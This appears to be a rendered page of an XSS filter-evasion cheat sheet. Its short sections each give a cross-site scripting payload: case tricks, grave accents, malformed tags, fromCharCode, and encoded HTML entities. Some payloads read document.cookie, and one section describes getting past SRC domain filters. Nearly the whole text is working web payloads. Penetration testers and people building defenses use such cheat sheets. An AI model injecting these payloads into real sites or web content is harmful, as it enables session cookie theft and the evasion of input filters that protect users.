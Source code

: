 ```js
<IMG SRC="javascript:alert('XSS');">
```
### No Quotes and no Semicolon
```js
<IMG SRC=javascript:alert('XSS')>
```
### Case Insensitive XSS Attack Vector
```js
<IMG SRC=JaVaScRiPt:alert('XSS')>
```
### HTML Entities
```js
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
```
### Grave Accent Obfuscation
 If you need to use both double and single quotes you can use a grave accent to encapsulate the JavaScript string.
```js
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
```
### Malformed A Tags
- Skip the HREF attribute and get to the meat of the XSS -> Verified on Chrome. 
```js
\<a onmouseover="alert(document.cookie)"\>xss link\</a\>
```
- Or Chrome loves to replace missing quotes for you :)
```js
\<a onmouseover=alert(document.cookie)\>xss link\</a\>
```
### Malformed IMG Tags
```js
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
```
### FromCharCode
If no quotes of any kind are allowed you can `eval()` a `fromCharCode` in JavaScript to create any XSS vector you need:
```js
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
```
### Default SRC Tag to Get Past Filters that Check SRC Domain
This will bypass most SRC domain filters. Inserting javascript in an event method will also apply to any HTML tag type injection that uses elements like Form, Iframe, Input, Embed etc. It will also allow any relevant event for the tag type to be substituted like `onblur`, `onclick` giving you an extensive amount of variations for many injections listed here.
```js
<IMG SRC=# onmouseover="alert('xss')">
```
### IMG onerror and JavaScript Alert Encode
```js
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
```
### Decimal HTML Character References
- All of the XSS examples that use a javascript: directive inside of an `<IMG` tag will not work in Firefox or Netscape 8.1+ in the Gecko rendering engine mode
```js
`<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>`
```